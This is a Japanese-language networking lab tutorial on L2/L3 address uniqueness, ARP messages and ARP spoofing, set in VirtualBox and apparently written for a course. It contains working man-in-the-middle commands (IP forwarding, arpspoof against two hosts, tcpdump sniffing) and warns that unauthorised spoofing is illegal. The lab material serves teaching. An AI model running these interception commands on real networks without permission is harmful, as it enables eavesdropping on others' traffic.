





 
* content
{:toc}

<font color=red>このトピックではARP Spoofingというテクニックを取り扱います。
たとえ自社内であってもネットワーク管理者に許可されていないARP Spoofingは犯罪行為です。
講師の指示が無い限りARP Spoofingを試してはいけません。</font>

## L2/L3アドレスの一意性を確認する

### 前置き

2台のコンピュータが相互に通信するためにはお互いの位置を把握する必要があります。
Layer3のIPアドレスとLayer2のMACアドレスがその役目を担います。
これらのアドレスの一意性が確保できないと意図した通信が行われません。


### 目的

同一ネットワーク（ブロードキャストドメイン）内でIPアドレスやMACアドレスを重複させてpingが届かなくなることを確認します。

### 手順

2台以上のホストを用意します。ホストは同一ネットワーク上に配置してお互いにpingで疎通確認してください。

その後お互いのNICのMACアドレスを確認します。

VirtualBoxのネットワーク設定から任意のMACアドレスを設定することが出来ます。
あらかじめ確認した通信相手のMACアドレスと同じ値を指定してください。

作業は仮想マシンを停止してから行います。


仮想マシンを起動してMACアドレスが指定した値になっている事を確認します。
この状態で通信相手にpingが届かなくなっていることを確認してください。

```
# ip address show enp0s8
```


MACアドレスを元に戻し、その代りにIPアドレスが同一ネットワーク上で重複している状態を作り出してください。
この状態で通信相手にpingが届かなくなっていることを確認してください。


## ARPメッセージ

目的のIPアドレスの物理的な位置を知るためにARPメッセージが利用されます。
Wiresharkを起動してARPメッセージが流れる様を観察しましょう。



1. 08:00:27:da:ec:ab から ブロードキャストメッセージ「こちら 192.168.200.2 です. 192.168.200.1 はどこですか？」
2. 08:00:27:e0:4f:3b から 08:00:27:da:ec:ab へ返信「192.168.200.1 は 08:00:27:e0:4f:3b です」
3. 08:00:27:da:ec:ab から 08:00:27:e0:4f:3b へPING開始

ARPメッセージで物理的位置が判明したIPアドレスはARPテーブル（ネイバーテーブル）に記録されます。
ARPテーブルに記録されているIPアドレスは既に物理的位置が分かっていますから、ARPメッセージの交換をせずにいきなりIP通信を開始できます。

```
# ネイバーテーブルを確認する
ip neighbor
```

もしARPメッセージを新たに確認したい場合は記録済みのARPテーブルから該当のIPアドレスに関する記録を削除しましょう。

```
# ネイバーテーブルの確認
ip neighbor

#10.0.2.2 dev enp0s3 lladdr 52:54:00:12:35:02 REACHABLE
#192.168.200.99 dev enp0s8 lladdr 08:00:27:48:aa:7a STALE
#192.168.200.1 dev enp0s8 lladdr 08:00:27:e0:4f:3b STALE
#172.16.0.21 dev vlan20 lladdr 08:00:27:e0:4f:3b STALE

# 192.168.200.1 dev enp0s8 に関する記録を削除
ip neighbor del 192.168.200.1 dev enp0s8
```

## ARP Spoofing

MACアドレスやIPアドレスが一意であることには意味があるという事が分かりました。
では次のようなネットワークが存在したらどうなるでしょうか。
192.168.200.1と192.168.200.2が通信しているネットワークに不審な挙動の192.168.200.99が割り込んでいます。



不審なホストの割り込みによって、192.168.200.1と192.168.200.2はお互いのMACアドレスを記録したネイバーテーブルを上書きされました。
そのため192.168.200.1から192.168.200.2へデータを送信する経路は次のように変化します。



### 確認手順

実際に試してみましょう。
不審なホストでこれを実現する為のコマンドは次の通りです。

```
# 上の図で不審なホストである 192.168.200.99 でこのコマンドを実行する

# パケット転送機能ON
sysctl -w net.ipv4.conf.enp0s8.forwarding=1

# 192.168.200.1に対して192.168.200.2に成りすます
arpspoof -i enp0s8 -t 192.168.200.1 192.168.200.2 &

# 192.168.200.2に対して192.168.200.1に成りすます
arpspoof -i enp0s8 -t 192.168.200.2 192.168.200.1
```

準備が出来たら192.168.200.1から192.168.200.2へPINGを送信します。
分かりやすくするためPINGのメッセージパターンにdeadbeafを指定しておきましょう。



192.168.200.99でtcpdumpを使えばパケットを盗聴出来ている事を確認出来ます。
```
tcpdump -i enp0s8 net 192.168.200.0/24 and not arp -x
```



このようにMACアドレスを騙る行為をARP Spoofing（ARPメッセージによる成りすまし）と呼びます。
たとえ自社内であってもネットワーク管理者に許可されていないARP Spoofingは犯罪行為です。

